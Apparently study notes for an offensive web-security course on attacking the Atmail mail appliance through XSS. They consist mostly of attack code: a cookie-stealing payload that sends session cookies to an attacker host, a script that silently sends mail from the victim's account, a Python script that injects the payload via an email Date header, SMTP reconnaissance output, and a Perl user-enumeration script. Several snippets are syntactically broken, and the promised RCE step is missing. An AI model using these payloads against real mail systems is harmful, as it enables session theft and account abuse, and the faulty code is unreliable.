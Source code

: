 # WEB-300: Atmail eMail Server Appliance: from XSS to RCE
The idea is mailservers can be vulnerable to xss, if you send a payload in the date or subject or body as form of iframe or javascript, you canexploit the vulnerability. Note: 99% of the world use about 4 main mail platforms, with gmail and outlook and yahoo basically accounting for over 90% and protonmail 8%. So, everything explained here is mostly theoretical. All mail servers won't accept iframe and the fields are sanitized.

# session hijacking
```javascript
function addImage(){
  var img = document.createElement('img');
  img.src = "http://attacker-ip:port/"+document.cookie;
  document.body.appendChild(img);
}

addImage();
```

# session riding
For this attack let's use XMLHttpRequest. The XHR objects are used to interact with servers. You can retrieve data from a URL without having to do a full page refresh.
- with burp find which is the request to send out emails 
### payload to send email using XMLHttpRequest
The person won't notice of emails sent from their account.
```javascript
var email = attacker@mail.com;
var sub = "whatever";
var msg = "okayyyy";
var method = "GET";
function send_email(){
  var uri = "/index.php/mail/composemessage/send/tabId/"
  var para = "?mailTo="+email+"&emailSubject="+sub+"&emailBody="+msg;
  xhr = new XMLHttpRequests();
  xhr.open(method,uri+para, true);
  xhr.send(null);
}
```
## sending the payload
```python
import smtplib

def sendEmail(to,from,smtpsrv,payload):
  msg = 'From: attacker@mail.com\n'
  msg += To: victim@mail.com\n'
  msg += f'Date: {payload}\n'
  msg += 'Subject: pwnd\n'
  msg += 'Content-type: text/html\n\n'
  msg += 'something something something'
  msg += '\r\n\r\n'

  server = smtplib.SMTP(smtpsrv)
  try:
    server.sendmail(to, from, msg)
  except:
    pass
  server.quit()
```

## References:
- [Hacking SMTP Servers](https://medium.com/@minimalist.ascent/hacking-smtp-ser-2b8a5cc1ce47)
- 
## other informations
Scan host and verify whether or not the SMTP is actually running we can connect to it via telnet and issue a few commands. After that, enumerate possible users base on OSINT research on Linkedin. 
```bash
root@asus:/mnt% nmap -sV -T4 -p22,25 mail.acme.comStarting Nmap 7.01 ( https://nmap.org ) at 2018-12-28 19:39 MST
Nmap scan report for mail.acme.com
Host is up (0.00097s latency).
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u4 (protocol 2.0)
25/tcp open  smtp    Sendmail 8.15.2/8.15.2/Debian-8
MAC Address: 08:00:27:0C:B6:CC (Oracle VirtualBox virtual NIC)
Service Info: Host: debian9.acme.com; OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernelService detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3.63 seconds
root@asus:/mnt%


root@asus:~/pentest_notes% telnet mail.acme.com 25
Trying mail.acme.com...
Connected to mail.acme.com.
Escape character is '^]'.
220 mail.acme.com ESMTP Sendmail 8.15.2/8.15.2/Debian-8; Fri, 28 Dec 2018 19:31:58 -0700;
HELO mail.acme.com
250 mail.acme.com Hello [77.x.x.x], pleased to meet you
quit
221 2.0.0 mail.acme.com closing connection
Connection closed by foreign host.
root@asus:~/pentest_notes%
```
#### Verify a user exists
```
----- SNIP -----
#!/usr/bin/env perl
use strict;
use warnings;use Net::SMTP;open(my $fh, '<', 'users.txt') or die $!;my @users;
while (<$fh>) {
    chomp($_);
    push(@users, $_);
}close($fh) or die $!;my $s = Net::SMTP->new('mail.acme.com');for my $user (0..$#users) { 
    print "$users[$user] user exists\n" if ($s->verify($users[$user]));
    sleep(1);
}
$s->quit; 
----- SNIP -----
```
